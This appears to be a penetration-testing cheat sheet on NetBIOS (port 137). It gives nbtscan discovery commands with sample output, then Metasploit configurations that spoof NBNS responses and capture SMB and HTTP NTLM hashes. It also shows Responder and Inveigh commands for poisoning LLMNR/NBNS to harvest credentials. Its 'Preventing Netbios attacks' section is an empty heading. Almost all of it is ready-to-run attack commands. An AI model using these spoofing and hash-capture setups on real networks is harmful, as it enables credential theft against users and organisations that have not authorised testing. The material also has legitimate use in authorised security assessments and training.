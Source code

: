 # 137 - Netbios

### Broadcast discovery

```
nbtscan 172.18.2.0/24
	
172.18.2.9:GCDTA0000:00U
172.18.2.9:WORKGROUP:00G
172.18.2.9:GCDTA0000:20U
172.18.2.9:MAC:00-23-7d-aa-72-c2
```

### nbt-wizz version version:

Download:

```
wget http://www.unixwiz.net/tools/nbtscan-1.0.35-redhat-linux
```

```
root@Kali:~/Downloads# ./nbtscan-1.0.35-redhat-linux -A 192.168.0.15 
192.168.0.38    WORKGROUP\DOOKOSSEL             SHARING 
  DOOKOSSEL      <00> UNIQUE Workstation Service 
  DOOKOSSEL      <03> UNIQUE Messenger Service<3> 
  DOOKOSSEL      <20> UNIQUE File Server Service 
  ..__MSBROWSE__.<01> GROUP  Master Browser 
  WORKGROUP      <00> GROUP  Domain Name 
  WORKGROUP      <1d> UNIQUE Master Browser 
  WORKGROUP      <1e> GROUP  Browser Service Elections 
  00:00:00:00:00:00   ETHER
```

### Windows NBTSCAN

{% embed url="http://www.unixwiz.net/tools/nbtscan-1.0.35.exe" %}

### Netbios Spoofing

#### Metasploit

```bash
use auxiliary/server/capture/smb
set CAINPWFILE /netbios/cain.
set JOHNPWFILE /netbios/john. 
set LOGFILE /netbios/SMB_LOG.txt
set SRVHOST 10.44.1.112 
run

use auxiliary/server/capture/http_ntlm
set CAINPWFILE /netbios/cain-http
set JOHNPWFILE /netbios/john-http
set SRVHOST 10.44.1.112 
set SRVPORT 80
set URIPATH /
run

use auxiliary/spoof/nbns/nbns_response
set INTERFACE eth0
set SPOOFIP 10.44.1.112 
run
```



### Capture Netbios broadcasts

#### Responder

```
sudo python3.9 /usr/share/responder/Responder.py -I eth0 -w -f -v
```

#### Inveigh - (Powershell Responder)

requires privileged user.

https://n0where.net/windows-powershell-llmnrnbns-spoofer-inveigh\
https://github.com/Kevin-Robertson/Inveigh

```
cd C:\Users\Leon\powermenu\Inveigh\Inveigh-master
Import-Module .\Inveigh.psm1
```

To execute with default settings

```
Invoke-Inveigh
```

To execute with features enabled/disabled

```
Invoke-Inveigh -LLMNR Y -NBNS Y -HTTP Y -HTTPS Y -SMB Y -ConsoleOutput Y -IP <yourIP>
```

You must Stop Inveigh manually

```
Stop-Inveigh
```

### Preventing Netbios attacks

